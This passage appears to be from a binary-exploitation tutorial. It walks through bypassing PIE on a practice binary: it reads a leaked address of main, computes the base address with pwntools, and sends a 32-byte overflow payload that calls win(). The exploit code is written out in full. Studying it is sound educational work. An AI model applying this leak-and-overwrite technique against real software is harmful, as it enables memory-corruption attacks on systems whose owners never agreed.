 ```c
    puts("PIE bypassed! Great job :D");
}
```

Pretty simple - we print the address of the `main`, which we can read and calculate the base address from. Then, using this, we can calculate the address of `win()` itself.

#### Analysis

Let's just run the script to make sure it's the right one :D

```bash
$ ./vuln-32 
Main Function is at: 0x5655d1b9
```

Yup, and as we expected, it prints the location of the `main`.

#### Exploitation

First, let's set up the script. We create an `ELF` object, which becomes very useful later on, and start the process.

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()
```

Now we want to take in the `main` function location. To do this we can simply receive up until it (and do nothing with that) and then read it.

```python
p.recvuntil('at: ')
main = int(p.recvline(), 16)
```

> Since we received the entire line except for the address, only the address will come up with `p.recvline()`.

Now we'll use the `ELF` object we created earlier and set its base address. The `sym` dictionary returns the offsets of the functions from the binary base until the base address is set, after which it returns the absolute address in memory.

```python
elf.address = main - elf.sym['main']
```

In this case, `elf.sym['main']` will return `0x11b9`; if we ran it again, it would return `0x11b9` + the base address. So, essentially, we're subtracting the offset of the `main` from the address we leaked to get the base of the binary.

Now we know the base we can just call `win()`.

```python
payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

print(p.clean().decode('latin-1'))
```
